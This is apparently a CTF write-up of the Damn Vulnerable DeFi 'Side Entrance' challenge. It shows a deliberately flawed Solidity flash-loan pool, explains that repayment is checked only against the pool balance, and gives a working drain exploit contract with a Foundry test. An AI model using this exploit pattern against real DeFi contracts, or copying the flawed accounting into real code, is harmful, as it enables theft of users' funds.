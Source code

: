```yaml
---
title: DamnVulnerableDeFi-4
date: 2023-12-29 15:48:36
tags:
    - DamnVulnerableDefi
    - Defi
categories: 
    - DamnVulnerableDefi
---
```

# Side Entrance
---
```
A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

It has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool.
```

## Code
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    mapping(address => uint256) private balances;

    error RepayFailed();

    event Deposit(address indexed who, uint256 amount);
    event Withdraw(address indexed who, uint256 amount);

    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        
        delete balances[msg.sender];
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore)
            revert RepayFailed();
    }
}
```

## Observation
The contract realize a lender pool , and have a free flashloan, one interface.

There are there function:`deposit()`,`withdraw()`,`flashloan()`.

The Vuln is in flashloan function:
```
function flashLoan(uint256 amount) external {
	uint256 balanceBefore = address(this).balance;

	IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

	if (address(this).balance < balanceBefore) revert RepayFailed();
}
```
especially`if (address(this).balance < balanceBefore) revert RepayFailed();` 
it only check the contract.balance !!! 

so if we use flashloan first , then we deposit it to the contract . The balanceof(pool) didn't change . we Pass the check !!!

after all , we can call withdraw() to make balanace become zero.
## Attack
`Exp.sol`:
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "./SideEntranceLenderPool.sol";

contract Exp {
    SideEntranceLenderPool pool;
    address public owner;

    constructor(address _pool) {
        pool = SideEntranceLenderPool(_pool);
        owner = msg.sender;
    }

    receive() external payable {
        payable(owner).transfer(msg.value);
    }

    function attack(uint256 amount) external payable {
        pool.flashLoan(amount);
    }

    function execute() external payable {
        uint256 value = msg.value;
        // deposit
        pool.deposit{value: value}();
    }

    function withdraw() external {
        pool.withdraw();
    }

    function getOwner() public view returns (address) {
        return owner;
    }
}
```

`Attack.t.sol`:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../../lib/forge-std/src/Test.sol";
import "../../src/4-side-entrance/Attacker.sol";
import "../../src/4-side-entrance/SideEntranceLenderPool.sol";

contract SideTest is Test {
    SideEntranceLenderPool pool;
    Exp exp;
    address attacker;
    uint256 internal constant INITIAL_Value = 1000e18;
    uint256 internal constant INITIAL_HACKER_BALANCE = 1e18;

    function setUp() public {
        pool = new SideEntranceLenderPool();
        vm.deal(address(pool), INITIAL_Value);
        vm.deal(attacker, INITIAL_HACKER_BALANCE);
    }

    function testValue() public {
        console.log("pool balance: ", address(pool).balance);
        console.log("attacker balance: ", address(attacker).balance);
    }

    function testOwner() public {
        vm.startPrank(attacker);
        exp = new Exp(address(pool));
        address owner = exp.getOwner();
        assertEq(address(owner), address(attacker));
    }

    function testAttacke() public {
        vm.startPrank(attacker);
        exp = new Exp(address(pool));
        exp.attack(1000e18);
        exp.withdraw();
        assertEq(address(pool).balance, 0);
    }
}
```

![](../images/ray-so-export.png)
